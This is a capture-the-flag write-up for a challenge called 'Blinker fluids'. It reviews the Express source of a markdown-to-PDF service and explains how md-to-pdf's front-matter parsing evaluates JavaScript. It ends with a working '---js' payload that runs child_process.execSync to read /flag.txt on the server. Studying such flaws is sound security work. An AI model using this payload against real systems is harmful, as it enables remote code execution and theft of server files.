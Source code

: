 # Blinker fluids

We are given a docker instance along with the source code of the web application.

The website just takes a markdown that a user inputs and converts it to a PDF.

![1.png](Blinker%20fluids%201e42bb7905f043beba6a7cb028733b47/1.png)

![2.png](Blinker%20fluids%201e42bb7905f043beba6a7cb028733b47/2.png)

COOL. Now let us take a look at source code.

```jsx
const express      = require('express');
const app          = express();
const path         = require('path');
const nunjucks     = require('nunjucks');
const routes       = require('./routes/index.js');
const Database     = require('./database');

const db = new Database('invoice.db');

app.use(express.json());
app.disable('etag');

nunjucks.configure('views', {
        autoescape: true,
        express: app
});

app.set('views', './views');
app.use('/static', express.static(path.resolve('static')));

app.use(routes(db));

app.all('*', (req, res) => {
        return res.status(404).send({
                message: '404 page not found'
        });
});

(async () => {
        await db.connect();
        await db.migrate();
        app.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
})();
```

Nothing interesting here. We can see routes, views and database initialization.

```jsx
const express        = require('express');
const router         = express.Router();
const MDHelper       = require('../helpers/MDHelper.js');

let db;

const response = data => ({ message: data });

router.get('/', async (req, res) => {
    return res.render('index.html');
});

router.get('/api/invoice/list', async (req, res) => {
        return db.listInvoices()
                .then(invoices => {
                        res.json(invoices);
                })
                .catch(e => {
                        res.status(500).send(response('Something went wrong!'));
                })
});

router.post('/api/invoice/add', async (req, res) => {
    const { markdown_content } = req.body;

    if (markdown_content) {
        return MDHelper.makePDF(markdown_content)
            .then(id => {
                db.addInvoice(id)
                                        .then(() => {
                                                res.send(response('Invoice saved successfully!'));
                                        })
                                        .catch(e => {
                                                res.send(response('Something went wrong!'));
                                        })
            })
            .catch(e => {
                console.log(e);
                return res.status(500).send(response('Something went wrong!'));
            })
    }
    return res.status(401).send(response('Missing required parameters!'));
});

router.post('/api/invoice/delete', async (req, res) => {
        const { invoice_id } = req.body;

        if (invoice_id) {
                return db.deleteInvoice(invoice_id)
                .then(() => {
                        res.send(response('Invoice removed successfully!'))
                })
                .catch(e => {
                        res.status(500).send(response('Something went wrong!'));
                })
        }

        return res.status(401).send(response('Missing required parameters!'));
});

module.exports = database => {
    db = database;
    return router;
};
```

From the routes, we can see 3 routes here - 

- `GET` request to `/api/invoice/list` → Just returns all the generated invoices in JSON format.
- `POST` request to `/api/invoice/add` → Expects a POST parameter `markdown_content`, then it generates the PDF out of the markdown using the `MDHelper.makePDF()`.
- `POST` request to `/api/invoice/delete` → Deletes an invoice based on an ID specified by the POST parameter `invoice_id`.

```jsx
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```

 

This is the function that converts the markdown to PDF. 

We can see that the application is using `md-to-pdf` for the conversion.

Now, if I search though google, I can see that `md-to-pdf` is vulnerable to RCE. 

`md-to-pdf` uses a library called `grey-matter` for parsing the front matter. Now the issue arises because the `grey-matter` exposes a `JS engine` by default and this engine runs `eval` on the given markdown. Now I do not need to explain how nice `eval` is 🙂.

You can refer https://github.com/simonhaenisch/md-to-pdf/issues/99 for further reading.

Let us straightly get the flag then.

```yaml
---js
{
    css: `body::before { content: "${(require("child_process")).execSync("cat /flag.txt")}"; display: block }`,
}
---
```

![3.png](Blinker%20fluids%201e42bb7905f043beba6a7cb028733b47/3.png)

You can see this nice PDF.

That is all in this challenge. Hope you liked it. 🙂